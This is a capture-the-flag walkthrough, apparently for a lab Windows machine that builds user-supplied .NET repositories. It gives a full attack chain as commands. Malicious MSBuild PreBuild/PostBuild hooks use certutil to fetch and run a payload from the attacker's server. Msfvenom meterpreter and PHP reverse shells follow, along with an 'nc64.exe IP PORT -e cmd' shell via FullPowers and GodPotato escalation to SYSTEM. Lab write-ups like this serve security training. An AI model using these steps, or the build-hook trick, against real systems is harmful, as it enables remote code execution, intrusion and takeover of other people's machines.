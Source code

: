 #Enumeration

Nmap scan show open port on 80 which reveals a website. Check nmap-scan.html

# Foothold

The Website offers a service to build .net repos. We can exploit this by using some BuildEvents and getting a shell.

## Creating a Repo(must have a .sln file for .net)

dotnet new sln -o Visual
cd Visual
dotnet new console -o Visual.ConsoleApp --framework net6.0
dotnet sln Visual.sln add Visual.ConsoleApp/Visual.ConsoleApp.csproj

HelloWorld.cs
```

// Hello World! program
namespace HelloWorld
{
    class Hello {         
        static void Main(string[] args)
        {
            System.Console.WriteLine("Hello World!");
        }
    }
}
```

Add this line to Visual.ConsoleApp.csproj and of course use your IP/PORT of the webserver we are setting up next
```
<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
  <Exec Command="certutil -urlcache -f http://IP:PORT/shell.exe %temp%/shell.exe" />
</Target>

<Target Name="PostBuild" AfterTargets="PostBuildEvent">
  <Exec Command="start %temp%/shell.exe" />
</Target>
```

## Creating shell.exe 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > s.exe
```

## Staring reverse shell
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport PORT //used at creating shell
set lport IP
run -j
```

## Staring Webserver for shell-download
```
python3 -m http.server PORT
```

## Start Gitea
```
sudo podman pull docker.io/gitea/gitea
mkdir data
sudo podman run --rm -it -v ./data:/data -p 3000:3000 gitea/gitea
```
visit localhost:3000 and do the initial process. Then add a user and upload the repository we have created.

## Getting shell
enter the site to your repo on the website:
http://IP:3000/username/Visual

On the python webserver you can watch how the shell.exe get downloaded and afterwards a session in msfconsole started. Another method is to use a payload which started a connection via powershell/cmd.

# Privilege Escalation
This shell was closed after one command on msfconsole so I used nc.

## Getting another shell
We are allowed to create file in C:\xampp\htdocs so let use this to get shell

### Creating & Upload Payload
msfvenom -p php/reverse_tcp LHOST=IP LPORT=PORT -f raw > phpraw.php

upload it via our first shell:
```
cerutil -urlcache -f http://IP:PORT/phpraw.php phpraw.php
```
### Starting NC listener
```
nc -nlvp PORT 
```

### Trigger Shell
Start the shell by visiting http://10.10.11.234/phpraw.php

## Extend Privileges using FullPowers
I need to do another workaround here by uploading nc64.exe and creating another shell.

Upload FullPowers from this repo: https://github.com/itm4n/FullPowers

Upload nc64.exe available at this repo: https://github.com/int0x33/nc.exe/

### Start nc listener
nc -nlvp PORT

### Execute FullPower to gain another shell with more privileges
```
FullPowers -c "C:\xampp\htdocs\nc64.exe IP PORT -e cmd" -z
```

With the new shell you should have 7 Privileges when you execute whoami /priv instead of 3.

## Getting Root using GodPotato
Download and upload GodPotato-NET4.exe from this url https://github.com/BeichenDream/GodPotato/releases

### Creating shell and upload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shellroot.exe
```

Upload it to the server.

### Start Listener

start the listener in msfconsole like at the beginning but using another port this time.
```
set payload windows/x64/meterpreter/reverse_tcp
set lport PORT //used at creating shell one step before
```

### Start shell using GodPotato
```
GodPotato-NET4.exe -cmd "C:\xampp\htdocs\uploads\shellroot.exe"
```

